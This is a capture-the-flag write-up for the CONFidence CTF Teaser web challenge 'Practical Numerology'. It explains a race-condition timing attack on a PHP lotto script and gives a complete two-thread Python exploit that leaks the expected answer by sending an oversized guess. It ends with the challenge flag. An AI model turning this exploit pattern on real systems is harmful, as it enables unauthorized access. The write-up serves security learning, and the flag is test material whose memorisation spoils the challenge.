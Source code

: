 # CONFidence CTF Teaser Practical Numerology

**Category:** Web
**Points:** 300
**Solves:** 56
**Description:**

> Here's a [lotto script](index.php), running on my [old and slow computer](134.213.136.172). Can you pwn it?  

## Write-up

### Explanation

This challenge was a timing attack against the server. The server performs the following steps when we give him a wrong guess:

 1. Outputs the expected answer.
 2. Outputs the guess we provided.
 3. Updates the session with a new answer.
 
If we manage the make the step 2 take relatively long amount of time, we can have a window where we know the expected answer and it hasn't been updated yet. To make the step 2 take a long amount of time, we can simply send a guess with a really long value. In the example below, I used a value with a length of 1000000. 

### Script

	import httplib
	import thread

	# Shared value that the first thread will write the expected value
	aaa = ""

	# Thread 1 does the request that take a long amount of time and sends the
	# results to Thread 2 with the shared value.
	def thread1(abc):
		global aaa

		try:
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			conn1 = httplib.HTTPConnection("134.213.136.172")
			conn1.request("POST", "/", "guess=" + ("a"*1000000), headers)
			
			# Reading only the expected value will not wait for everything to be received.
			g = conn1.getresponse().read(92)
			
			# Sending it to Thread 2
			aaa = g[8:8+80]
		except Exception:
			import traceback
			print traceback.format_ex
		
	# Thread 2 receives the value from Thread 1 and sends it before the flag 
	# is updated.
	def thread2(abc):
		global aaa

		try:
			conn2 = httplib.HTTPConnection("134.213.136.172")
			headers = {
				"Content-Type": "application/x-www-form-urlencoded",
				"Cookie": "PHPSESSID=1337cookie"
			}
			
			while aaa == "":
				pass
				
			conn2.request("POST", "/", "guess=" + aaa, headers)
			a = conn2.getresponse().read()
			
			# This will output the flag if we sent it just in time.
			print(a)
		except Exception:
			import traceback
			print traceback.format_ex
		
		
	thread.start_new_thread(thread1, ("test",))
	thread.start_new_thread(thread2, ("test",))

	while 1:
	   pass
	   
### Flag

DrgnS{JustThinkOutOfTheBoxSometimes...}

## Other write-ups and resources

* none yet
